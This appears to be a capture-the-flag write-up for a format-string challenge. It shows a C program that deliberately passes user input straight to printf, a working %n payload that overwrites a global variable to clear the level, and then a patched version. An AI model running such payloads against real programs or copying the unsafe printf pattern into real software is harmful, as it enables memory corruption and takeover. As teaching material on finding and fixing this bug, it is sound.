 Let's take a look at the code...

```
#include <stdio.h>
#include <stdlib.h>

int var0 = 0;

void fun0()
	{
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf(buf0);

	if (var0 == 486)
		{
			printf("What type of a guy would take advantage of a printf? I'll tell you. Level Cleared\n");
		}
	printf("The value of var0 is %d\n", var0);
	}

int main()
{
	fun0();
}
```

So we can see that this challenge is pretty similar to the previous challenge. The only real difference is that the if then statement is checking to see if the value is equal to a specific value. This is something we can deal with towards the end, but first off we have to go throught he same process that we did for the previous challenge.

First we find where our input is stored.

```
root@tux:/Hackery/escape/fmt_str/f2# python -c 'print "0000" + "%x."*20' | ./f2
000064.f77865a0.f0b5ff.ffa5ae4e.1.c2.30303030.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
The value of var0 is 0
```

So we know that our input is stored 7 stack locations after the printf. Now to find the address of the global int var0.

```
guyinatuxedo@tux:/Hackery/escape/fmt_str/f2$ objdump -t ./f2 | grep var0
0804a048 g     O .bss	00000004              var0
```

Now that we have those two things, we can move onto writing the exploit. Now if we just write write the address to the int, then since the address is only 4 bytes the program will interpret this as the int being 4. Now we can change this by adding additional bytes with the "%x" flag. Since we need to reach 486, we should have to add 482 bytes to reach that.

```
root@tux:/Hackery/escape/fmt_str/f2# python -c 'print "\x48\xa0\x04\x08%482x%7$n"' | ./f2 
H�                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                64
What type of a guy would take advantage of a printf? I'll tell you. Level Cleared
The value of var0 is 486
```

And just like that, we pwned the binar. Now to patch it. 

```
#include <stdio.h>
#include <stdlib.h>

int var0 = 0;

void fun0()
	{
	char buf0[100];
	fgets(buf0, sizeof(buf0), stdin);
	printf("%s\n", buf0);

	if (var0 == 486)
		{
			printf("What type of a guy would take advantage of a printf? I'll tell you. Level Cleared\n");
		}
	printf("The value of var0 is %d\n", var0);
	}

int main()
{
	fun0();
}
```

As you can see, the patch is the same as the last time.

```
root@tux:/Hackery/escape/fmt_str/f2# python -c 'print "0000" + "%x."*20' | ./f2_secure 
0000%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

The value of var0 is 0
```

And just like that, we patched the binary.
